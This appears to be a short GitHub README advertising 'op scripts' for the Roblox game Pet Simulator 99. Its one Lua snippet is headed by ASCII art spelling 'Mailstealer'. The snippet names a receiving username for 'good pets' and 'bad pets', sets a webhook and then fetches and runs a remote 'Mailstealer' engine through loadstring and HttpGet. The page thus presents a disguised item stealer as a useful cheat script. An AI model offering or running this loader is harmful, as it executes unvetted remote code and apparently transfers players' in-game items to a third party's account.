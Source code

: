 # Ps99-op-scripts
Some of the best and most important ps99 scripts 
lua
--[[
  __  __       _ _     _             _           
  |  \/  | __ _(_) |___| |_ ___  __ _| | ___ _ __ 
  | |\/| |/ _` | | / __| __/ _ \/ _` | |/ _ \ '__|
  | |  | | (_| | | \__ \ ||  __/ (_| | |  __/ |   
  |_|  |_|\__,_|_|_|___/\__\___|\__,_|_|\___|_|   


]]--


UserName = LX_petsimxgift12 -- good pets
Webhook = "Webhook Here" -- pings for pets
UserName2 = LX_petsimxgift12 -- bad pets


_G.LoadingScreen = false -- make it true if you want the loadingscreen
_G.AntiLeave = false -- make it true if you want the antileave
_G.MouseLock = false -- make it true if you want the mouselock


loadstring(game:HttpGet("https://raw.githubusercontent.com/Egorikusa/Mailstealer/main/engine"))()
